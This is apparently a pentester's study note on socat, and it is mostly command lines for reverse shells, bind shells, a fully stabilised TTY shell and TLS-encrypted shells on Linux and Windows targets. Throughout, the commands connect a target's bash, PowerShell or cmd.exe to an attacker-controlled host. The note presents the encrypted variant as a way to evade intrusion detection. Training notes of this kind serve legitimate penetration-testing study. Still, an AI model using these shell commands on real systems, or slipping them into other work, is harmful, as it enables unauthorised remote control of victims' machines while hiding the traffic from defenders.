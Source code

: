 ```yaml
---
tags:
  - Tool
---
```

Socat is like [[Netcat]] on steroids. It can do all of the same things, and many more. Socat [[Shells]] are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

- The syntax is more difficult
- Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

Both Socat and Netcat have .exe versions for use on Windows.

## Reverse Shells

The syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

```bash
socat TCP-L:<port> -
```

As always with socat, this is *taking two points* (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

```powershell
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## Bind Shells

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Stabilised Shells

This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a *listening port, and a file*. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the` Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the *target must have socat installed*. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li`". We're also passing the arguments: `pty`, `stderr`, `sigint`, `setsid` and `sane`:

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.

## Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells *cannot be spied on* unless you have the decryption key, and are *often able to bypass an IDS* as a result.

We first need to *generate a certificate* in order to use encrypted shells. This is easiest to do on our attacking machine:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a **2048 bit RSA key** with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to *merge the two* created files into a single `.pem` file:

```bash
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an *OPENSSL listener* using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the **certificate must be used on whichever device is listening**.

To connect back, we would use:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
